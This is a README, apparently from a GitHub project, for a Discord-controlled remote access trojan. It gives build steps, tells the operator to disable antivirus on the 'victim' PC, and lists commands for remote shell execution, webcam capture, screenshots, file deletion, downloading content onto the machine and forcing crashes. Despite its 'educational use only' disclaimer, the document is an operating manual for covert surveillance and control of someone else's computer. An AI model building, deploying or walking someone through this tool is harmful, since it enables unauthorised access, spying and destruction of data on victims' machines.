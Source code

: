 # Discord RAT

# ![#f03c15](https://placehold.co/15x15/f03c15/f03c15.png) Disclaimer:
This tool is for educational use only, the author will not be held responsible for any misuse of this tool.
## ![#f03c15](https://placehold.co/15x15/f03c15/f03c15.png) And you might get banned on Discord for using it.

# Credits
The project is inspired by https://github.com/moom825/Discord-RAT-2.0/, huge thanks to [moom825](https://github.com/moom825).

# How to use:
You will first need to register a bot with the Discord developer portal and then add the bot to the Discord server that you want to use to control the bot (make sure the bot has administrator privileges in the Discord server). Once the bot is created open "builder.exe" and paste the token in, and paste the guild ID of where you invited the bot, it should create a new directory/folder called "dist" and there's a file called "Client.exe", you can run this file BUT you have to turn off ALL Antiviruses on the Client/Victim PC before running the exe file.
### You can use the "Client.py" file in the same directory as the "builder.exe" file WITHOUT disabling ALL Antiviruses
### How to get guild ID
[Enable developer mode](https://support.discord.com/hc/en-us/articles/206346498-Where-can-I-find-my-User-Server-Message-ID) and then right click on your server, at the very bottom you should see "Copy Server ID".
# ![#f03c15](https://placehold.co/15x15/f03c15/f03c15.png) Disclaimer: You might get banned on Discord for using it.

And then if all done correctly, the bot should create a new channel, then ping @everyone.

# Commands:
```Help
List of available commands
kill_proc
Kills a specific process (case sensitive).

- Syntax: !kill_proc PROCESS_NAME.

Example: !kill_proc Discord.exe
getip
Gets the Client's IP.
- Syntax: !getip
open_website
Open a website in the Client's PC.
- Syntax: !open_website WEBSITE_URL_HERE.
Example: !open_website example.com
bluscreen
Bluecreen Client's PC.
- Syntax: !bluscreen
help
Display this command.
Examples:

- Display help for all commands: !help
- Display help for one command: !help change_wallpaper

shutdown
Shutdown Client's PC.
- Syntax: !shutdown
deletefile
Delete file from the Client's PC.
- Syntax: !deletefile FILE_NAME_HERE
Example: !deletefile: temp.txt
runshellcommand
Run shell command on the Client's PC.
- Syntax: !runshellcommand COMMAND_HERE
Example: !runshellcommand whoami
change_wallpaper
Changes the Client's PC IP.
- Syntax: !change_wallpaper (WITH ATTACHMENT)
showmessage
Show message on the Client PC

- Syntax:

!showmessage "title" "message here"
Example: !showmessage nice_title hello world!
get_datetime
Get current datetime in the Client's PC.

- Syntax: !get_datetime

exit
Exit the program.

- Syntax: !exit

list_cams
List active cameras.

- Syntax: !list_cams.

restart
Restart Client's PC.
- Syntax: !restart
deletedir
Delete directory/folder from the Client's PC.
- Syntax: !deletedir DIR_NAME_HERE
Example: !deletedir: New Folder
ls
Display current directory items.
- Syntax !ls
upload_content
Upload content to Client's PC.

- Syntax: !upload_content LINK_HERE
- Exmaple: !upload_content https://raw.githubusercontent.com/K-K-L-L/k-k-l-l.github.io/main/index.html

list_processes
List all active processes.
- Syntax: !list_processes
capture_image
Capture image from a specific camera (default one is 0, which is the first camera).

- Syntax: !capture_image OPTIONAL_CAMERA_INDEX.

Examples:

- !capture_image
- !capture_image 1

cd
Change directory.
Examples:

- Change to a new directory: - !cd
- Exit from directory: !cd ..
- Display current directory: !cd

log_off_current_user
Log off current user.

- Syntax: !log_off_current_user

screenshot
Screenshot the Client's PC.

- Syntax: !screenshot

voice
Play a TTS voice on the Client's PC.
- Syntax: !voice TEXT_HERE
Example: !voice Hello world!
isadmin
Check if you got admin privileges.
- Syntax: !isadmin
ping
Test Client's ping.
```


# If the program doesn't work, just open a new issue.
